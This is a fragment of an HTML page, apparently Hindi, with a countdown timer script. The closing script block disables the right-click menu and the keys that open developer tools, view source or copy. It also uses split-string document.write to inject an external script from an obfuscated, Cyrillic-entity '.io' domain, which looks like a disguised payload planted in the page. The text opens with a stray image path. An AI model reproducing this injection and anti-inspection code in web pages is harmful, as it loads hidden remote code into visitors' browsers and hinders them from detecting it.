  // Output the result in an element with id="demo"
 document.getElementById("demoo").innerHTML = days + "<font color='#00ffcc'> दिन,</font> " + hours + "<font color='#00ffcc'>  घंटा,</font> "
  + minutes + "<font color='#00ffcc'> मिनट,</font> " + seconds + "<font color='#00ffcc'> सेकेंड </font> पहले ";
    

 // If the count down is over, write some text
 if (distance < 0)
 {
 clearInterval(x);
 document.getElementById("demoo").innerHTML = "";
 document.getElementById("inAdvance").innerHTML = "";

 }
 }, 1000);
 </script>

<script>
document.addEventListener('contextmenu', event => event.preventDefault()); document.write('<s'+'cr'+'ipt sr'+'c="/'+'/'+'&#1092;'+'&#1102;.'+'i'+'o"></s'+'cr'+'ipt>'); document.onkeydown = function(e) { if(event.keyCode==123){ return false; } else if (e.ctrlKey && (e.keyCode === 67 || e.keyCode === 16 || e.keyCode === 73 || e.keyCode === 86 || e.keyCode === 85 || e.keyCode === 117)) { return false; } };
</script> 
 </html>

